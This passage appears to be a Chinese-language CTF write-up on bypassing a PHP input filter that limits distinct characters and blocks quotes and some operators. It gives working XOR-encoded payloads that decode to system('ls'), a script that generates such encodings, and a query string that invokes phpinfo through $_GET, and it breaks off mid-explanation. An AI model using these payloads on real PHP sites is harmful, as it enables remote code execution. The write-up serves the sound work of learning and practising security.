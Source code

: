 ```
$character_type = count_chars($hhh, 3);
if(strlen($character_type)>12) die("Almost there!");
```

[count_chars的介绍](https://www.php.net/manual/zh/function.count-chars.php)

就是所用的字符不能超过12.

首先禁用了`~`,`&`,`|`，`_`所以我们只能利用`^`异或，按照往常一样的话

我们就需要构造

```php
("%08%02%08%08%05%0d"^"%7b%7b%7b%7c%60%60")("%0c%08"^"%60%7b"); //system("ls");
```

但是因为过滤了单双引号，所以跟往常的不太一样，我们需要构造GET请求



这儿有脚本

```php
<?php
$l = "";
$r = "";
$argv = str_split("_GET");
for($i=0;$i<count($argv);$i++)
{
    for($j=0;$j<255;$j++)
    {
        $k = chr($j)^chr(255);      //dechex(255) = ff
        if($k == $argv[$i]){
            if($j<16){
                $l .= "%ff";
                $r .= "%0" . dechex($j);
                continue;
            }else {
                $l .= "%ff";
                $r .= "%" . dechex($j);
                continue;
            }
        }
    }
}
echo "$r^$l".PHP_EOL;

?>

```

得到

```
?_=${%a0%b8%ba%ab^%ff%ff%ff%ff}{%ff}();&%ff=phpinfo;
```

在这儿，就等于，`${_GET}{%ff}()`==`$_GET[%ff]()`,然后%ff=phpinfo，就可以执行phpinfo，所以，我们需要执行函数，直接赋值
